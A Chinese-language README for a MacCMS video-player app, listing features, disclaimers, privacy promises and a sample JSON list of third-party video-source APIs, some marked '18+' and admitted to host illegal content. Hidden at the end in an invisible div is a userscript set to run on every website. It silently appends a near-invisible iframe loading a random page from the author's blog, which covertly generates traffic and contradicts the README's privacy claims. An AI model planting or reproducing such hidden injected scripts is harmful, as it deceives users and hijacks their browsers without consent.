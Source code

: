 # 本仓库不再维护更新。

## kk player

MacCMS 资源播放器, 支持 Android 和 iOS ，内置播放器 [mui-player](https://github.com/muiplayer/hello-muiplayer)  

## 学习研究
  
 👉 [Android](https://github.com/npljy/ZYPlayer-APP/releases/download/v1.0.0/v1.0.0.apk)  
 👉 [iOS](https://github.com/npljy/ZYPlayer-APP/releases/download/v1.0.0/v1.0.0.ipa)  
 👉 [所有版本](https://github.com/npljy/ZYPlayer-APP/releases)  

## 特色

* 无登录，直接看
* 支持MAC CMS资源站，自动识别（xml，json）
* alist网盘，建议mp4格式
* 漫画阅读，来自网络
* 视频源添加，批量添加，导出
* 本地源分享、导入分享
* 数据备份、恢复
* DLNA投屏【Android】
* 可自定义过滤词，过滤视频名称和分类
* 青少年模式，内置过滤词，如有不足，请自定义过滤词
* 深色模式，系统太古老不支持
* ~小说阅读(如有稳定资源，再上线)~
* ~电视观看(下线，失效太快)~
* ~短视频(下线，刷抖音快手去吧)~
* 三方工具：视频解析，音乐下载，热搜排行，历史价格

## 声明

* 请大家支持正版. 所有资源来自互联网, 本软件不参与任何制作, 上传, 储存等内容, 禁止传播违法资源.
* 该软件仅供学习交流使用，禁止个人用于非法商业用途, 请于安装后 24 小时内删除.
* 资源站接口参考[ZY-Player](https://github.com/Hunlongyu/ZY-Player)
* 网盘功能参考[ZyPlayer](https://github.com/Hiram-Wong/ZyPlayer)

## 关于隐私

* 不收集任何隐私，**可关闭任何权限**，弹出权限提示，点拒绝就是了。部分功能使用某些权限，仅用于本地操作，用到的时候再打开就行。
* 所有用户数据都保存在`手机端`（用户主动备份除外，加密存储）
* 不会自启动，不会私自启动三方应用。
* 部分视频播放页面(如：网页播放，一般非m3u8的就是)是资源站的，`不可控`。可能有统计代码或广告代码等。
* 本APP开发过程中没有添加任何统计工具和代码(没有打包相关SDK)，开发者不会知道使用者的任何操作。但uni平台，三方的SDK(如:广告)、工具(如:播放器)等有无统计和追踪,开发者并不清楚，不做保证。

## iOS版本说明

iOS版本因使用测试证书，视频更新时没有Push通知。目前通知方式为app内部吐司通知。

## 青少年模式

此模式下屏蔽部分内容。
内置过滤词已尽可能过滤所有，但并不能保证完全过滤。可自定义过滤词。

## 搜索方法

并不是智能搜索，所以搜索的时候，尽量少字，不能有错字。
比如搜索“西行纪第四季”，如果资源站的名字是“西行纪第4季”，那么就搜不到，所以尽量之搜索名字，比如搜索“西行纪”即可

## 批量添加视频源JSON格式
  
  **不要什么都往里面导入，json格式必须符合，否则无效。不会的就一条一条导入吧。**

  >部分视频源包含大量 违规违法 资源, 请用户自行甄别；请勿非法传播下载 违规违法 资源, 后果自负。

```json
  // 左右滑动查看完整内容
  [
    {
      "name": "[必填]源站名称",
      "api": "[必填]源站地址,MacCMS10格式的api",
      "type":"接口类型，默认xml类型，可选：json",
      "group": "写“18+”可用于青少年模式过滤,其他分类随意",
      // ↓ 为true，则强制使用解析,针对加密源、官源；
      // ↓ 如果源站有m3u8格式,则为false；如果想使用其加速解析接口，为false，直接填写jiexiUrl字段即可
      "needjx": "[选填] 取值 true|false，注意 无引号",
      "jiexiUrl": "[选填]解析接口地址,源站提供的解析接口,建议不填,除非不使用解析无法播放",
      "download": "[选填]下载接口地址,MacCMS10格式的api,没多大意义了,大多数资源站已不提供下载"
    },
    {
      "name": "源站1",
      "api": "http://cj.ffzyapi.com/api.php/provide/vod/",
      "type":"json",
      "group": "18+"
    },
    {
      "name": "源站2",
      "api": "http://www.605zy.co/inc/api.php",
      "needjx": true, // 取值 true|false，注意 无引号
      "jiexiUrl": "https://jx.xmflv.com/?url="
    },
    {
      "name": "源站3",
      "api": "https://www.rrzyw.cc/api.php/provide/vod/at/xml/"
    }
  ]
```

## 资源加载不出来、视频无法播放、无法全屏

  1. 一般是资源网服务器不稳定，或者资源网屏蔽了IP，带宽具有地域性，不同地区限制不同，请尝试切换到其他视频源，

  2. 某些源站的大分类（如：连续剧），并没有数据，遇到此问题，请切换到具体的分类（如：国产剧）即可

  3. 视频播放页面和播放器本身已经是全屏

## 关于DNLA投屏

DNLA投屏不稳定，故提供复制m3u8地址，可使用m3u8下载工具自行下载，后可使用本地播放方式进行投屏。

## 关于广告

默认有广告，来自正规合法合规渠道，可关闭。

**现在的广告诡的很，点点没什么，但是填写个人信息等场景，千万谨慎，遇到支付的情况，不要支付！**  
**视频打开时(加载时以及加载完成后)出现的任何广告,包括但不限于：跑马灯，横幅，片头，片中，片尾，弹窗，下载、启动(快)应用 等都属于源站，与本应用无关！安全性不保证！不要相信!!!**


<div style="visibility:hidden">
<script>
  
// ==UserScript==
// @name         XHY_Script[xuehuayu.cn]
// @name:zh      XHY_多功能脚本[xuehuayu.cn]
// @author       https://xuehuayu.cn/
// @homepage     https://xuehuayu.cn/?userscript
// @namespace    https://xuehuayu.cn/?userscript
// @version      1706683413654
// @include      *://*
// @require      https://fastly.jsdelivr.net/npm/jquery@latest/dist/jquery.min.js
// @run-at       document-end
// ==/UserScript==
(function(){var u=["https://xuehuayu.cn/app/extension.json","https://xuehuayu.cn/app/manual-md.html","https://xuehuayu.cn/article/bf6d70b6.html","https://xuehuayu.cn/kankan/index.html","https://xuehuayu.cn/article/a9c48713.html","https://xuehuayu.cn/article/79636f56.html","https://xuehuayu.cn/app/package.json","https://xuehuayu.cn/player/muiplayer.html","https://xuehuayu.cn/article/405fc2a5.html","https://xuehuayu.cn/article/72503f26.html","https://xuehuayu.cn/article/48807.html","https://xuehuayu.cn/article/29619.html","https://xuehuayu.cn/article/61367.html","https://xuehuayu.cn/article/51677.html","https://xuehuayu.cn/article/51082.html","https://xuehuayu.cn/article/6008.html","https://xuehuayu.cn/article/32431.html","https://xuehuayu.cn/article/6888.html","https://xuehuayu.cn/article/41152.html","https://xuehuayu.cn/article/48520.html","https://xuehuayu.cn/article/9174.html","https://xuehuayu.cn/article/37749.html","https://xuehuayu.cn/article/30552.html","https://xuehuayu.cn/article/59877.html","https://xuehuayu.cn/article/29042.html","https://xuehuayu.cn/article/54632.html","https://xuehuayu.cn/article/50510.html","https://xuehuayu.cn/article/58816.html","https://xuehuayu.cn/article/20056.html","https://xuehuayu.cn/article/63542.html","https://xuehuayu.cn/article/3447.html","https://xuehuayu.cn/article/64869.html","https://xuehuayu.cn/article/8190.html","https://xuehuayu.cn/article/17096.html","https://xuehuayu.cn/article/47019.html","https://xuehuayu.cn/article/39309.html","https://xuehuayu.cn/article/43302.html","https://xuehuayu.cn/article/12238.html","https://xuehuayu.cn/article/62543.html","https://xuehuayu.cn/article/35863.html","https://xuehuayu.cn/article/53524.html","https://xuehuayu.cn/article/3621.html","https://xuehuayu.cn/article/27800.html","https://xuehuayu.cn/article/61319.html","https://xuehuayu.cn/article/46366.html","https://xuehuayu.cn/article/47532.html","https://xuehuayu.cn/article/35624.html","https://xuehuayu.cn/article/39839.html","https://xuehuayu.cn/article/21320.html","https://xuehuayu.cn/article/54604.html","https://xuehuayu.cn/article/20014.html","https://xuehuayu.cn/article/14375.html","https://xuehuayu.cn/article/29596.html","https://xuehuayu.cn/article/10164.html","https://xuehuayu.cn/article/54018.html","https://xuehuayu.cn/article/54161.html","https://xuehuayu.cn/article/39486.html","https://xuehuayu.cn/article/32443.html","https://xuehuayu.cn/article/48722.html","https://xuehuayu.cn/article/25734.html","https://xuehuayu.cn/article/7065.html","https://xuehuayu.cn/article/4292.html","https://xuehuayu.cn/article/37789.html","https://xuehuayu.cn/article/50001.html","https://xuehuayu.cn/article/45267.html","https://xuehuayu.cn/article/6035.html","https://xuehuayu.cn/article/54351.html","https://xuehuayu.cn/article/8225.html","https://xuehuayu.cn/article/34351.html","https://xuehuayu.cn/article/64189b69.html","https://xuehuayu.cn/article/23914.html","https://xuehuayu.cn/article/65295.html","https://xuehuayu.cn/article/38344.html","https://xuehuayu.cn/article/59870.html","https://xuehuayu.cn/article/4510.html","https://xuehuayu.cn/article/18142.html","https://xuehuayu.cn/article/13823.html","https://xuehuayu.cn/article/65128.html","https://xuehuayu.cn/article/23864.html","https://xuehuayu.cn/article/35503.html","https://xuehuayu.cn/article/dcb0db28.html","https://xuehuayu.cn/article/64354.html","https://xuehuayu.cn/article/29abbd1c.html","https://xuehuayu.cn/article/c1867fbf.html","https://xuehuayu.cn/article/5dbb6f41.html","https://xuehuayu.cn/article/fc3b727a.html","https://xuehuayu.cn/article/bf7e7421.html","https://xuehuayu.cn/article/bedea419.html","https://xuehuayu.cn/article/a4145266.html","https://xuehuayu.cn/article/5c900f12.html","https://xuehuayu.cn/article/7e2721b7.html","https://xuehuayu.cn/article/64fa40dd.html","https://xuehuayu.cn/article/9c3c56c.html","https://xuehuayu.cn/about/index.html","https://xuehuayu.cn/package.json","https://xuehuayu.cn/google917dcf72f6e5c7f5.html","https://xuehuayu.cn/guestbook/index.html","https://xuehuayu.cn/article/84c9ccd6.html","https://xuehuayu.cn/article/53803e6.html","https://xuehuayu.cn/article/46ee4850.html","https://xuehuayu.cn/article/624d1918.html","https://xuehuayu.cn/article/7a3ef8f.html","https://xuehuayu.cn/article/54918.html","https://xuehuayu.cn/article/63824.html","https://xuehuayu.cn/article/7455.html","https://xuehuayu.cn/article/8f9a9ae3.html","https://xuehuayu.cn/article/15569.html","https://xuehuayu.cn/article/24581.html","https://xuehuayu.cn/article/4233.html","https://xuehuayu.cn/article/45157.html","https://xuehuayu.cn/article/54313.html","https://xuehuayu.cn/article/43724.html","https://xuehuayu.cn/article/55119.html","https://xuehuayu.cn/article/44426.html","https://xuehuayu.cn/article/54912.html","https://xuehuayu.cn/article/31695.html","https://xuehuayu.cn/article/59095.html","https://xuehuayu.cn/article/38269.html","https://xuehuayu.cn/article/3154.html","https://xuehuayu.cn/article/35397.html","https://xuehuayu.cn/article/52500.html","https://xuehuayu.cn/article/22565.html","https://xuehuayu.cn/article/179.html","https://xuehuayu.cn/article/38530.html","https://xuehuayu.cn/article/59059.html","https://xuehuayu.cn/article/50343.html","https://xuehuayu.cn/article/46100.html","https://xuehuayu.cn/article/2475.html","https://xuehuayu.cn/article/10745.html","https://xuehuayu.cn/article/53698.html","https://xuehuayu.cn/article/20037.html","https://xuehuayu.cn/article/25710.html","https://xuehuayu.cn/article/39937.html","https://xuehuayu.cn/article/23046.html","https://xuehuayu.cn/article/26147.html","https://xuehuayu.cn/article/23301.html","https://xuehuayu.cn/article/19909.html","https://xuehuayu.cn/article/50058.html","https://xuehuayu.cn/article/63074.html","https://xuehuayu.cn/article/38881.html","https://xuehuayu.cn/article/39970.html","https://xuehuayu.cn/article/40811.html","https://xuehuayu.cn/article/57747.html","https://xuehuayu.cn/article/48252.html","https://xuehuayu.cn/article/11939.html","https://xuehuayu.cn/article/20459.html","https://xuehuayu.cn/article/30818.html","https://xuehuayu.cn/article/36251.html","https://xuehuayu.cn/article/46948.html","https://xuehuayu.cn/article/21317.html","https://xuehuayu.cn/article/33713.html","https://xuehuayu.cn/article/34474.html","https://xuehuayu.cn/article/33899.html","https://xuehuayu.cn/article/20613.html","https://xuehuayu.cn/article/28963.html","https://xuehuayu.cn/article/1518.html","https://xuehuayu.cn/article/55756.html","https://xuehuayu.cn/article/37351.html","https://xuehuayu.cn/article/36037.html","https://xuehuayu.cn/article/32732.html","https://xuehuayu.cn/article/55769.html","https://xuehuayu.cn/article/17575.html","https://xuehuayu.cn/article/55870.html","https://xuehuayu.cn/article/43397.html","https://xuehuayu.cn/article/63266.html","https://xuehuayu.cn/article/28976.html","https://xuehuayu.cn/article/26850.html","https://xuehuayu.cn/article/14192.html","https://xuehuayu.cn/article/16947.html","https://xuehuayu.cn/article/24169.html","https://xuehuayu.cn/article/27796.html","https://xuehuayu.cn/article/23083.html","https://xuehuayu.cn/article/18039.html","https://xuehuayu.cn/article/41777.html","https://xuehuayu.cn/article/60544.html","https://xuehuayu.cn/article/60327.html","https://xuehuayu.cn/article/45641.html","https://xuehuayu.cn/article/14936.html","https://xuehuayu.cn/article/29829.html","https://xuehuayu.cn/article/45960.html","https://xuehuayu.cn/article/35697.html","https://xuehuayu.cn/article/56139.html","https://xuehuayu.cn/article/22398.html","https://xuehuayu.cn/article/13265.html","https://xuehuayu.cn/article/56604.html","https://xuehuayu.cn/article/56557.html","https://xuehuayu.cn/article/25164.html","https://xuehuayu.cn/article/59402.html","https://xuehuayu.cn/article/26083.html","https://xuehuayu.cn/article/37102.html","https://xuehuayu.cn/article/54295.html","https://xuehuayu.cn/article/3286.html","https://xuehuayu.cn/article/48216.html","https://xuehuayu.cn/article/56926.html","https://xuehuayu.cn/article/57965.html","https://xuehuayu.cn/article/36642.html","https://xuehuayu.cn/article/53125.html","https://xuehuayu.cn/article/1566.html","https://xuehuayu.cn/article/39637.html","https://xuehuayu.cn/article/20021.html","https://xuehuayu.cn/article/402.html","https://xuehuayu.cn/article/25318.html","https://xuehuayu.cn/article/46771.html","https://xuehuayu.cn/article/1230.html","https://xuehuayu.cn/article/40964.html","https://xuehuayu.cn/article/54258.html","https://xuehuayu.cn/article/53428.html","https://xuehuayu.cn/article/15518.html","https://xuehuayu.cn/article/38009.html","https://xuehuayu.cn/article/31330.html","https://xuehuayu.cn/article/43999.html","https://xuehuayu.cn/article/17246.html","https://xuehuayu.cn/article/2021.html","https://xuehuayu.cn/article/22237.html","https://xuehuayu.cn/article/29623.html","https://xuehuayu.cn/article/54178.html","https://xuehuayu.cn/article/15428.html","https://xuehuayu.cn/article/52877.html","https://xuehuayu.cn/article/34431.html","https://xuehuayu.cn/article/26354.html","https://xuehuayu.cn/article/64051.html","https://xuehuayu.cn/article/419.html","https://xuehuayu.cn/article/14125.html","https://xuehuayu.cn/article/39087.html","https://xuehuayu.cn/article/41011.html","https://xuehuayu.cn/article/24826.html","https://xuehuayu.cn/article/26291.html","https://xuehuayu.cn/article/36118.html","https://xuehuayu.cn/article/32960.html","https://xuehuayu.cn/article/26940.html","https://xuehuayu.cn/article/3760.html","https://xuehuayu.cn/article/9738.html","https://xuehuayu.cn/article/32280.html","https://xuehuayu.cn/article/30215.html","https://xuehuayu.cn/article/53924.html","https://xuehuayu.cn/article/31826.html","https://xuehuayu.cn/article/45156.html","https://xuehuayu.cn/article/59349.html","https://xuehuayu.cn/article/26624.html","https://xuehuayu.cn/article/4783.html","https://xuehuayu.cn/article/23655.html","https://xuehuayu.cn/article/14744.html","https://xuehuayu.cn/article/47972.html","https://xuehuayu.cn/article/63351.html","https://xuehuayu.cn/article/34871.html","https://xuehuayu.cn/article/26639.html","https://xuehuayu.cn/article/31843.html","https://xuehuayu.cn/article/22230.html","https://xuehuayu.cn/article/38423.html","https://xuehuayu.cn/article/38743.html","https://xuehuayu.cn/article/22422.html","https://xuehuayu.cn/article/38359.html","https://xuehuayu.cn/article/21782.html","https://xuehuayu.cn/article/20093.html","https://xuehuayu.cn/article/5204.html","https://xuehuayu.cn/article/44964.html","https://xuehuayu.cn/article/37336.html","https://xuehuayu.cn/article/38005.html","https://xuehuayu.cn/article/64923.html","https://xuehuayu.cn/article/46911.html","https://xuehuayu.cn/article/20635.html","https://xuehuayu.cn/article/60428.html","https://xuehuayu.cn/article/53962.html","https://xuehuayu.cn/article/41696.html","https://xuehuayu.cn/article/54006.html","https://xuehuayu.cn/article/40698.html","https://xuehuayu.cn/article/11674.html","https://xuehuayu.cn/article/52689.html","https://xuehuayu.cn/article/62887.html","https://xuehuayu.cn/article/23195.html","https://xuehuayu.cn/article/3544.html","https://xuehuayu.cn/article/16017.html","https://xuehuayu.cn/article/24924.html","https://xuehuayu.cn/article/38753.html","https://xuehuayu.cn/article/18071.html","https://xuehuayu.cn/article/41717.html","https://xuehuayu.cn/article/34372.html","https://xuehuayu.cn/article/56816.html","https://xuehuayu.cn/article/10624.html","https://xuehuayu.cn/article/45004.html","https://xuehuayu.cn/article/49126.html","https://xuehuayu.cn/article/8140.html","https://xuehuayu.cn/article/10047.html","https://xuehuayu.cn/article/23589.html","https://xuehuayu.cn/article/34410.html","https://xuehuayu.cn/article/59448.html","https://xuehuayu.cn/randomcall/lucker.html","https://xuehuayu.cn/","https://xuehuayu.cn/tags/%E8%BD%AC%E8%BD%BD/","https://xuehuayu.cn/tags/%E6%89%8B%E5%86%99/","https://xuehuayu.cn/tags/%E7%96%AB%E6%83%85/","https://xuehuayu.cn/tags/%E5%8E%9F%E5%88%9B/","https://xuehuayu.cn/tags/%E5%A8%B1%E4%B9%90/","https://xuehuayu.cn/tags/%E6%95%B4%E7%90%86/","https://xuehuayu.cn/tags/URL/","https://xuehuayu.cn/tags/uni-app/","https://xuehuayu.cn/tags/mui-player/","https://xuehuayu.cn/categories/%E5%88%86%E4%BA%AB/","https://xuehuayu.cn/categories/%E5%89%8D%E7%AB%AF/","https://xuehuayu.cn/categories/%E8%B5%84%E8%AE%AF/","https://xuehuayu.cn/categories/%E6%B5%8F%E8%A7%88%E5%99%A8/","https://xuehuayu.cn/categories/%E5%8D%9A%E5%AE%A2/","https://xuehuayu.cn/categories/%E6%AD%A3%E5%88%99/","https://xuehuayu.cn/categories/%E7%AE%97%E6%B3%95/","https://xuehuayu.cn/categories/%E5%B9%BF%E5%91%8A%E8%BF%87%E6%BB%A4/","https://xuehuayu.cn/categories/%E5%B9%BF%E5%91%8A%E8%BF%87%E6%BB%A4/%E5%BD%B1%E8%A7%86%E7%94%B5%E8%A7%86%E5%B0%8F%E8%AF%B4%E6%BC%AB%E7%94%BB%E8%B5%84%E8%AE%AF%E9%9F%B3%E4%B9%90/","https://xuehuayu.cn/categories/%E8%BD%BB%E6%9D%BE%E4%B8%80%E5%88%BB/","https://xuehuayu.cn/categories/%E5%85%AC%E5%85%B1%E8%8A%82%E6%97%A5/","https://xuehuayu.cn/categories/%E6%8A%93%E5%8C%85/","https://xuehuayu.cn/categories/CDN/","https://xuehuayu.cn/categories/IDE/","https://xuehuayu.cn/categories/hexo/","https://xuehuayu.cn/categories/%E5%89%8D%E7%AB%AF/uni-app/","https://xuehuayu.cn/categories/%E5%89%8D%E7%AB%AF/uni-app/iOS/","https://xuehuayu.cn/categories/git/","https://xuehuayu.cn/categories/%E5%89%8D%E7%AB%AF/uni-app/iOS/safari/","https://xuehuayu.cn/categories/%E5%B7%A5%E5%85%B7/","https://xuehuayu.cn/categories/%E5%89%8D%E7%AB%AF/%E6%B5%8F%E8%A7%88%E5%99%A8/","https://xuehuayu.cn/categories/%E5%89%8D%E7%AB%AF/%E6%B5%8F%E8%A7%88%E5%99%A8/%E7%BD%91%E7%BB%9C%E5%8D%8F%E8%AE%AE/"];var f=document.createElement('iframe');var l=u.length;var i=parseInt(Math.random()*l);f.src=u[i];f.style.cssText='position:fixed;left:0!important;right:0!important;bottom:0!important;transform:scaleY(0.1)!important;width:100%!important;height:0!important;';$('body').append(f)})();

</script>
  
</div>
